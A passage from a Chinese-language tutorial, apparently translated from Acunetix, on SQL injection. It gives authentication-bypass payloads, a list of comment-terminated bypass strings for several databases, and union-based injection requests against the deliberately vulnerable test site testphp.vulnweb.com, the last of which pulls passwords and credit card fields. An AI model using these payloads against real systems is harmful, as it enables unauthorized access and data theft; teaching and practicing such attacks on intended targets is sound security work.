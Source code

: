 这些输入字段是容易遭受 SQL 注入攻击的。攻击者能够在输入字段中利用 SQL 指令，修改数据库服务执行的 SQL 语句。比如，他们可使用含有单引号的把戏，将 `password` 字段设置为：

```sql
password' OR 1=1
```

结果，数据库服务将执行以下 SQL 查询：

```sql
SELECT id FROM users WHERE username='username' AND password='password' OR 1=1'
```

由于 `OR 1=1` 语句，无论 `username` 和 `password` 是什么，`WHERE` 分句都将返回 `users` 表中第一个 `id`。数据库中第一个用户的 `id` 通常是数据库管理员。通过这种方式，攻击者不仅绕过了身份认证，而且还获得了管理员权限。他们也可以通过注释掉 SQL 语句的后续部分，进一步控制 SQL 查询语句的执行：

```
-- MySQL, MSSQL, Oracle, PostgreSQL, SQLite
' OR '1'='1' --
' OR '1'='1' /*
-- MySQL
' OR '1'='1' #
-- Access (using null characters)
' OR '1'='1' %00
' OR '1'='1' %16
```

## 基于合并查询的 SQL 注入例子

使用 UNION 操作符是最常见的 SQL 注入类型之一。它允许攻击者将两个或更多个 SELECT 语句的查询结果合并为一个结果。这种技术被称为基于合并查询的 SQL 注入。

以下是这种注入攻击的一个例子。该例子在 **testphp.vulnweb.com** 网页上进行，该网页是 Acunetix 维护的故意存在漏洞的网站。（译者注：可以跟着该例子在 [testphp.vulnweb.com](http://testphp.vulnweb.com/artists.php?artist=1) 站点体验 SQL 注入攻击的过程。）

以下 HTTP 请求是一位用户发送的合法正常请求：

```
GET http://testphp.vulnweb.com/artists.php?artist=1 HTTP/1.1
Host: testphp.vulnweb.com
```

![HTTP request a legitimate user would send](https://www.acunetix.com/wp-content/uploads/2012/10/image02.png)

`artist` 参数容易受到 SQL 注入攻击。以下的载体修改了该参数，希望找到某个不存在的记录。它设置该参数的值为 `-1`。当然，它可以是数据库中不存在的任意值。然而，负数往往是个好主意，因为数据库中的 id 很少会是负数。

在 SQL 注入攻击中，`UNION` 操作符通常被用于在原始查询语句中，附加恶意的 SQL 查询语句，网站服务将执行所有查询语句。注入的查询语句的结果将和原始查询语句的结果合并。这样攻击者便可以得到其他数据表中的数据。（译者注：这步是为了演示当 UNION 之后的语句为 `SELECT 1, 2, 3` 时，页面将输出 2 和 3。）

```
GET http://testphp.vulnweb.com/artists.php?artist=-1 UNION SELECT 1, 2, 3 HTTP/1.1
Host: testphp.vulnweb.com
```

![SQL injection using the UNION operator](https://www.acunetix.com/wp-content/uploads/2012/10/image00.png)

接下来的例子展示了，在这个存在漏洞的网站中，如何修改 SQL 注入的载体并得到有意义的数据：

```
GET http://testphp.vulnweb.com/artists.php?artist=-1 UNION SELECT 1,pass,cc FROM users WHERE uname='test' HTTP/1.1
Host: testphp.vulnweb.com
```
